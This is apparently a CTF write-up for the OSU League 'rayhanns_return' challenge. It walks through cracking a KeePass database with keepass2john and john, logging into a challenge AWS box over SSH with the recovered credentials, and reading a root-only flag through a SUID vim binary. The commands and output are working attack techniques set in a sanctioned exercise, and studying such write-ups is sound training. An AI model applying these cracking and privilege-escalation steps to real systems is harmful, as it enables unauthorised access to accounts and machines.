 ```yaml
---
title: "OSU League 2020/2021 - rayhanns_return Writeup"
date: 2021-02-22
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given three files: A PDF that explains the lore/backstory of our task, an ISO file, and a wordlist that seems to be a derivitive of the `rockyou.txt` wordlist.

The first thing I did was mount the ISO file to my file system to see its contents:

```
$ sudo mount -o loop CTG-2021-02-19-001.iso /mnt/disk
$ cd /mnt/disk
$ ls
lost+found  rhodgson.kdbx
```

Interesting, we have a keepass password database. Let's see if we can open it:

```
$ kpcli --kdb rhodgson.kdbx 
Please provide the master password: *************************
Couldn't load the file rhodgson.kdbx: Missing pass
```

Dang, looks like we need to know the master password.... Or do we? (Insert Vsauce music)

We were given a password list right at the start, maybe we can use that to try and crack the password. Using johntheripper's `keepass2john`, we can convert this kee pass db into a hash format that john can try to crack:

```
$ ./keepass2john /mnt/disk/rhodgson.kdbx > hash.txt
$ john --wordlist=CTG_STANDARD_WORDLIST.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1hodgson         (rhodgson)
1g 0:00:00:20 DONE (2021-02-20 18:12) 0.04803g/s 135.2p/s 135.2c/s 135.2C/s prield28..pinkphone98
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And there we go! We have the password to the kee pass file, `1hodgson`.

We can use that password and begin navigating the database.

```
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
rhodgson/
kpcli:/> cd rhodgson/
kpcli:/rhodgson> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. My Flag Box                                               34.216.68.186
kpcli:/rhodgson> show -f My\ Flag\ Box 

 Path: /rhodgson/
Title: My Flag Box
Uname: ubuntu
 Pass: As.3S;d0cvAS3kmm3VI(N
  URL: 34.216.68.186
Notes: This aws thing is maybe useless cause I was messing with permissions, and now I cannot print the flag, and dont understand what I did when I was messing around with SUID bits. https://imgflip.com/i/4yladl

kpcli:/rhodgson> 
```

We have an aws box with the password!!  Default user on aws ubuntu boxes is `ubuntu`, so let's try to SSH into `34.216.68.186` as that user and with that password:

```
ubuntu@ip-172-31-24-45 / % ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
```

We are in! Let's start looking for the flag:

```
ubuntu@ip-172-31-24-45 ~ % ls -lah
total 180K
drwxr-xr-x 7 ubuntu ubuntu 4.0K Feb 21 02:48 .
drwxr-xr-x 4 root   root   4.0K Feb 18 10:27 ..
-rw------- 1 ubuntu ubuntu   61 Feb 20 03:44 .Xauthority
-rw------- 1 ubuntu ubuntu 1.8K Feb 20 04:10 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4.0K Feb 18 09:53 .cache
drwx------ 3 ubuntu ubuntu 4.0K Feb 20 06:37 .config
-rw------- 1 root   root     28 Feb 19 02:56 .flag

ubuntu@ip-172-31-24-45 ~ % cat .flag
cat: .flag: Permission denied
```

After a little digging, I was able to find `.flag` hidden in the home directory of ubuntu. But the file is only readable by root :/

Usually with boxes like this, the first thing I look for is any SETUID binarys that I could use to priv esc or read certain files, so let's try that:

```
ubuntu@ip-172-31-24-45 ~ % find / -perm -4000 2>/dev/null           
...
/usr/bin/at
/usr/bin/sudo
/usr/bin/vim.basic
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
```

Sweet! We have vim as a SETUID, that means we can just read the flag with root privileges by doing `$ vim .flag`:

And we get the flag!  

`osu{rAyh44n_is_b4d_@_0ps3c}`



